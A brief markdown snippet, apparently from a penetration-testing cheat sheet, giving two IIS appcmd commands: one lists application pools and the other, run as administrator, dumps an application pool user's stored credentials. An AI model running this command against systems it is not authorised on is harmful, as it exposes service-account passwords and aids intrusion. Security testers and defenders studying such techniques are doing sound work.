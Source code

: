 ### List application pool user 
```
C:\Windows\System32\inetsrv\appcmd list apppools
```

### Dump credentials of application pool user (run as admin)
```
C:\Windows\System32\inetsrv\appcmd list apppool "<user>" /text:*
```

